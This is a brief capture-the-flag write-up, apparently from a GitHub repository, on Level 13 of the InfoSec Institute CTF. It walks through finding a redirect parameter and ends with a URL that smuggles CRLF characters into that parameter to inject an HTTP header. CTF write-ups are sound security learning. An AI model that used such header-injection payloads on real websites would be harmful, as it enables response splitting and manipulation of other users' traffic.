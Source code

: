 # InfoSecInstituteCTF
I wanted to go from the hardest but anyway the order is mixed

# Level13
Try adding a remote URL in the appropriate GET parameter

It's pretty strange that level13 leads to ex13-task.php, while others lead to ex#.php :)
Lets visit exp13.php
"Get a Hint"
Lets try few tricks :
http://ctf.infosecinstitute.com/ctf2/exercises/ex13-task.php?redirect=test
Nothing
http://ctf.infosecinstitute.com/ctf2/exercises/ex13.php?redirect=test
Bingo :)
Now we have to inject the header :
ctf.infosecinstitute.com/ctf2/exercises/ex13.php?redirect=%0d%0a%20CostumHeader:INJECTED
